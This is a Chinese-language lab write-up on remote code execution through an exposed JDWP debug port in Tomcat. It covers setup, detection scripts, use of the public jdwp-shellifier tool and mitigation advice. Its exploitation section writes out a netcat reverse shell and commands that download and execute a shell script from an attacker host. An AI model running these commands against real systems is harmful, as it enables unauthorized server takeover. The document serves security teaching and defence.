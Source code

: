 # JDWP 调试接口 RCE 漏洞

## 漏洞描述

JDWP（Java Debug Wire Protocol，Java 调试线协议）是一个为 Java 调试而设计的通讯交互协议，它定义了调试器（Debugger）和被调试 JVM（Debuggee）进程之间的交互数据的传递格式，它详细完整地定义了请求命令、回应数据和错误代码，保证了调试端和被调试端之间通信通畅。

JDWP 是 JVM 或者类 JVM 的虚拟机都支持的一种协议，通过该协议，Debugger 端和被调试 JVM 之间进行通信，可以获取被调试 JVM 的包括类、对象、线程等信息。

参考阅读：

- https://forum.butian.net/share/1232

## 环境搭建

### Windows

下载 Tomcat 到本地，在 `bin\startup.bat` 文件中添加如下代码开启 debug 模式：

```
SET CATALINA_OPTS=-server -Xdebug -Xnoagent -Djava.compiler=NONE -Xrunjdwp:transport=dt_socket,server=y,suspend=n,address=8000
```

点击运行 `startup.bat` ，以 debug 模式启动 Tomcat。

`Listening for transport dt_socket at address: 8000`，表示 JDWP 服务已经监听在 8000 端口，等待调试器连接。

### Linux

执行如下命令安装 Tomcat：

```
# 执行wget命令下载Tomcat安装包
wget http://mirror.bit.edu.cn/apache/tomcat/tomcat-8/v8.5.43/bin/apache-tomcat-8.5.43.tar.gz

# 解压安装包
tar zxvf apache-tomcat-8.5.43.tar.gz

# 将程序安装包复制到指定运行目录下
sudo mv apache-tomcat-8.5.43 /usr/local/tomcat8
```

启动方式一：

进入 Tomcat 安装目录下的 bin 目录下找到 `catalina.sh` 文件，在文件开头部分添加如下一行：

```shell
CATALINA_OPTS="-Xdebug -Xrunjdwp:transport=dt_socket,server=y,suspend=n,address=*:8000"
```

修改完成后，执行脚本 `./startup.sh` 就会以 debug 模式启动 Tomcat。

启动方式二：

进入 Tomcat 的 bin 目录，输入 `./catalina.sh jpda run` 或者 `./catalina.sh jpda start` 命令以调试模式启动 tomcat。

启动时就会出现如下信息提示：

`Listening for transport dt_socket at address: 8000`。

注意脚本中默认配置 JDWP 是监听在本地的 8000 端口，修改 `JDPA_ADDRESS` 的值对外开放此端口，在 JDK9 及以上的版本需要修改为 `JDPA_ADDRESS=*:8000` ，在 JDK9 以下版本修改为 `JDPA_ADDRESS=8000` 即可

## 漏洞检测

有三种常用方式来进行 JDWP 服务探测，原理都是一样的，即向目标端口连接后发送 JDWP-Handshake，如果目标服务直接返回一样的内容则说明是 JDWP 服务。

### Nmap

扫描会识别到 JDWP 服务，且有对应的 JDK 版本信息。

```shell
nmap -sT -sV 192.168.192.1 -p 8000
```

### Telnet

使用 Telnet 命令探测，需要马上输入 JDWP-Handshake，然后服务端返回一样的内容，证明是 JDWP 服务。

```shell
telnet 192.168.182.130 8000
```

注意：需要马上输入 JDWP-Handshake，并按下回车，不然马上就会断开。在 Linux 系统下使用 telnet 测试可以，在 Windows 系统下使用 telnet 测试不太行。

### Python

使用如下脚本扫描，直接连接目标服务器，并向目标发送 JDWP-Handshake，如果能接收到相同内容则说明目标是开启了 JDWP 服务。

```
import socket

host = "192.168.182.130"
port = 8000
try:
    client = socket.socket()
    client.connect((host, port))
    client.send(b"JDWP-Handshake")
    if client.recv(1024) == b"JDWP-Handshake":
        print("[*] {}:{} Listening JDWP Service! ".format(host, port))
except Exception as e:
    print("[-] Connection failed! ")
finally:
    client.close()
```

## 漏洞 POC

### POC1

poc1：https://github.com/IOActive/jdwp-shellifier

jdwp-shellifier 是使用 Python2 编写的，该工具通过编写了一个 JDI（JDWP 客户端），以下断点的方式来获取线程上下文从而调用方法执行命令。

该漏洞无回显，可利用 dnslog 进行探测：

```
python2 jdwp-shellifier.py -t 192.168.3.118 -p 8787 --break-on "java.lang.String.indexof" --cmd "ping xxx.dnslog.cn"
```

#### 反弹 shell

准备反弹 shell 文件，保存为 shell.txt：

```
nc 192.168.178.129 3333 | /bin/bash | nc 192.168.178.129 4444%
```

启动 http 服务：

```
python3 -m http.server 8000
```

开启监听，需要开启 2 个监听，前面一个输入执行命令，后面一个输出命令执行结果：

```
nc -lvvp 3333
nc -lvvp 4444
```

利用 poc1 执行命令，下载 shell、文件可执行权限、执行 shell：

```
python2 jdwp-shellifier.py -t 192.168.178.128 -p 8000 --break-on "java.lang.String.indexof" --cmd "wget http://192.168.178.129:8000/shell.txt -O /tmp/shell.sh"
python2 jdwp-shellifier.py -t 192.168.178.128 -p 8000 --break-on "java.lang.String.indexof" --cmd "chmod a+x /tmp/shell.sh"
python2 jdwp-shellifier.py -t 192.168.178.128 -p 8000 --break-on "java.lang.String.indexof" --cmd "/tmp/shell.sh"
```

两个监听都收到 shell，一个输入命令，一个输出结果。

![image-20230630173638801](images/image-20230630173638801.png)

### POC2

poc2：https://github.com/Lz1y/jdwp-shellifier

该脚本是在上面一个漏洞利用脚本的基础上，修改利用方式为通过对 Sleeping 的线程发送单步执行事件，达成断点，从而可以直接获取上下文、执行命令，而不用等待断点被击中。

## 修复建议

- 关闭 JDWP 端口，或者 JDWP 端口不对公网开放
- 关闭 Java 的 debug 模式
